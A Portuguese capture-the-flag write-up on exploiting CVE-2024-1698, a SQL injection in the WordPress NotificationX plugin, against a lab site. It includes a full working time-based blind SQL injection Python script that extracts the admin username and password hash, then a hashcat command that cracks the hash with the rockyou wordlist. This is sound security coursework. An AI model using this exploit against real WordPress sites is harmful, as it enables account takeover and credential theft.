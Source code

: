 # CTF Semana #8 (SQL Injection)

Este documento apresenta as etapas seguidas para a realização de um ataque a um site Wordpress utilizando a injeção de comandos SQL.

## 1. Reconhecimento

A página web que estamos a tentar atacar trata-se de uma página wordpress na versão 6.7. Observando o website, encontramos imediatamente uma mensagem popup escrita por alguém que hackeou o sistema (Figura 1).

![Figura 1](/Images/CTF8/Figura1.png)

Figura 1: mensagem popup lançada quando abrimos o website.

Este popup também indica que está instalado no website o plugin `NotificationX`, que é responsável por lançar a notificação.

Se carregarmos no popup, conseguimos ver o conteúdo total da mensagem deixada pelo hacker (Figura 2). Assim, conseguimos perceber que a hash da palavra passe de que estamos à procura começa por $P$B, o que indica que a política de armazenamento de palavras-passe do servidor utiliza o algorítmo `phpass`! 

![Figura 2](/Images/CTF8/Figura2.png)

Figura 2: pista deixada pelo hacker relativamente à palavra passe do admin.


## 2. Pesquisa por Vulnerabilidades

Começamos por procurar por vulnerabilidades em fontes públicas como CVE (Common Vulnerabilities and Exposures) do tipo SQL Injection associadas à versão 6.7 do Wordpress. Encontramos o [CVE-2021-24748](https://www.acunetix.com/vulnerabilities/web/wordpress-plugin-email-before-download-sql-injection-6-7/) relacionado com o plugin `Email Before Download`. No entanto, após procurarmos extensivamente no website, percebemos que este plugin não estava instalado e que esta não poderia ser a vulnerabilidade. 

Pesquisamos de seguida vulnerabilidades SQL Injection associadas ao plugin que sabemos que está instalado: o `NotificationX`. Encontramos a vulnerabilidade [CVE-2024-1698](https://nvd.nist.gov/vuln/detail/cve-2024-1698), em que o plugin (até à versão 2.8.2) está vulnerável a SQL Injection através do parâmetro `type`, permitindo que atacantes consigam aceder a valores da base de dados. 

## 3. Escolha da Vulnerabilidade

Fazendo o inspect da página web e pesquisando por "plugin", encontramos que a versão do plugin `NotificationX` é a 2.8.1 (Figura 3). Esta versão é inferior à 2.8.2, o que significa que a página de wordpress está vulnerável ao [CVE-2024-1698](https://nvd.nist.gov/vuln/detail/cve-2024-1698)!

![Figura 3](/Images/CTF8/Figura3.png)

Figura 3: versão do plugin `NotificationX`.


## 4. Encontrar um Exploit

Para explorar esta vulnerabilidade fizemos uma pesquisa e encontramos um [repositório GitHub](https://github.com/kamranhasan/CVE-2024-1698-Exploit) com um possível exploit para este CVE! Esta é uma ferramenta que permite automatizar a execução de comandos SQL para extrair informações da base de dados. 

Fizemos a alteração do url para o endpoint vulnerável do nosso wordpress: http://44.242.216.18:5008/wp-json/notificationx/v1/analytics.

```Python
import requests
import string
from sys import exit

# Sleep time for SQL payloads
delay = 45

# URL for the NotificationX Analytics API
url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"

admin_username = ""
admin_password_hash = ""

session = requests.Session()

# Find admin username length
username_length = 0
for length in range(1, 41):  # Assuming username length is less than 40 characters
    resp_length = session.post(url, data={
        "nx_id": 1337,
        "type": f"clicks`=IF(LENGTH((select user_login from wp_users where id=1))={length},SLEEP({delay}),null)-- -"
    })

    # Elapsed time > delay if delay happened due to SQLi
    if resp_length.elapsed.total_seconds() > delay:
        username_length = length
        print("Admin username length:", username_length)
        break

# Find admin username
for idx_username in range(1, username_length + 1):
    # Iterate over all the printable characters + NULL byte
    for ascii_val_username in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_username = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_login from wp_users where id=1),{idx_username},1))={ascii_val_username},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_username.elapsed.total_seconds() > delay:
            admin_username += chr(ascii_val_username)
            # Show what we have found so far...
            print("Admin username:", admin_username)
            break  # Move to the next character
    else:
        # Null byte reached, break the outer loop
        break

# Find admin password hash
for idx_password in range(1, 41):  # Assuming the password hash length is less than 40 characters
    # Iterate over all the printable characters + NULL byte
    for ascii_val_password in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_password = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx_password},1))={ascii_val_password},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_password.elapsed.total_seconds() > delay:
            admin_password_hash += chr(ascii_val_password)
            # Show what we have found so far...
            print("Admin password hash:", admin_password_hash)
            # Exit condition - encountered a null byte
            if ascii_val_password == 0:
                print("[*] Admin credentials found:")
                print("Username:", admin_username)
                print("Password hash:", admin_password_hash)
                exit(0)
```

## 5. Explorar a Vulnerabilidade

Executando o payload, conseguimos obter a hash da password do admin, `$P$BuRuB0Mi3926H8h.hcA3pSrUPyq0o10` (Figura 4)!

![Figura 4](/Images/CTF8/Figura4.png)

Figura 4: hash da password do admin como resultado do exploit.

No entanto, este ainda não é o valor da flag. É apenas a hash da password. E como podemos ver, a hash começa de facto por `$P$B`, confirmando que o modo de hash é o `phpass`.

O armazenamento de uma palavra-passe como hash melhora a segurança, uma vez que teoricamente o hashing é irreversível. No entanto, não é completamente seguro, uma vez que se podem realizar, por exemplo, ataques de brute force para encontrar a palavra-passe original. E foi isso mesmo que fizemos utilizando uma wordlist (`rockyou.txt`) e uma ferramenta que automatiza o processo de reverter funções de hash para palavras-passe chamada Hashcat.

Assim, utlizamos o Hashcat com as seguintes configurações:

1. Configuramos o modo de hash para o tipo `phpass`: `-m 400`.

2. Utilizamos a wordlist `rockyou.txt`, que contém uma coleção de passwords comuns (o hacker também nos deixou esta pista através do link da música no youtube!).

3. Colocamos a hash no ficheiro `flag.txt`.

O comando executado foi:

```
hashcat -m 400 -a 0 flag.txt rockyou.txt
```

E conseguimos por fim obter a flag deste CTF: `heartbroken` (Figura 5)!

![Figura 5](/Images/CTF8/Figura5.png)

Figura 5: obtenção da flag utilizando o hascat.